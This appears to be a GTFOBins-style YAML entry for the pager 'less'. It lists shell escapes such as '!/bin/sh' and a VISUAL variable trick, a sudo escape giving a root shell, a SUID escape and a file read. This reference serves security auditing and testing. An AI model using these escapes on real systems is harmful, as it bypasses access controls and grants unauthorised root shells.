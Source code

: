 ```yaml
---
functions:
  execute-interactive:
    - code: |
        less /etc/profile
        !/bin/sh
    - code: |
        VISUAL="/bin/sh -c '/bin/sh'" less /etc/profile
        v
  sudo-enabled:
    - code: |
        sudo less /etc/profile
        !/bin/sh
  suid-limited:
    - code: |-
        ./less /etc/profile
        !/bin/sh
  file-read:
    - code: |
        less file_to_read
---
```

